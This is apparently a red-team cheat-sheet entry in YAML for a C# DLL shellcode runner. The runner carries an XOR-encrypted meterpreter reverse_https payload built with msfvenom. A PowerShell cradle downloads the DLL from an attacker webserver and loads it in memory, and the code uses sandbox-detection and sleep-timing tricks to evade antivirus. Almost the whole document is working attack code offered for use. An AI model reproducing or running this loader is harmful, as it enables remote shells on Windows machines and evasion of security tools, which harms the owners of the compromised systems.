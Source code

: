 ```yaml
---
description: |
  Shellrunner in managed DLL, with the below code you can create a DLL that hold an meterpreter shell. Host this DLL on your webserver and retrieve it via the second part of the code, which makes sure the DLL is directly loaded into the memory of the Windows machine.

  Command Reference:

  	byte[] buf: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a


command: |
    $data = (New-Object System.Net.WebClient).DownloadData('http://10.10.14.21/ShellcodeRunner.dll')

    $assem = [System.Reflection.Assembly]::Load($data)
    or (for local file)
    $assem = [System.Reflection.Assembly]::LoadFile("C:\user\documents\ClassLibrary1.dll")

    $class = $assem.GetType("ShellcodeRunner.Program")
    $method = $class.GetMethod("Run")
    $method.Invoke(0, $null)
    Or
    $a = [ShellcodeRunner.Program]::Run()
    ```

code: |
    using System;
    using System.Runtime.InteropServices;

    namespace ShellcodeRunner
    {
        public class Program
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

            [DllImport("kernel32.dll")]
            static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            [DllImport("kernel32.dll")]
            static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

            [DllImport("kernel32.dll")]
            static extern void Sleep(uint dwMilliseconds);

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

            [DllImport("kernel32.dll")]
            static extern IntPtr GetCurrentProcess();

            public static void Run()
            {
                // Check if we're in a sandbox by calling a rare-emulated API
                if (VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0) == IntPtr.Zero)
                {
                    return;
                }

                // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
                var rand = new Random();
                uint dream = (uint)rand.Next(10000, 20000);
                double delta = dream / 1000 - 0.5;
                DateTime before = DateTime.Now;
                Sleep(dream);
                if (DateTime.Now.Subtract(before).TotalSeconds < delta)
                {
                    Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                    return;
                }

                // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
                byte[] buf = new byte[657] {0x9d,0x29,0xe2, [...]
                                ,0x9e,0xb4};

                // XOR-decrypt the shellcode
                for (int i = 0; i < buf.Length; i++)
                {
                    buf[i] = (byte)(buf[i] ^ (byte)'a');
                }

                IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
                Marshal.Copy(buf, 0, addr, buf.Length);
                IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
                WaitForSingleObject(hThread, 0xFFFFFFFF);
            }
        }
    }


items:
    - Shell
services:
    - AV
OS:
    - Windows
attack_types:
    - Persistence
references:
    - https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/shellcode-runners#c-dll-with-powershell-cradle-in-memory
--- 
```



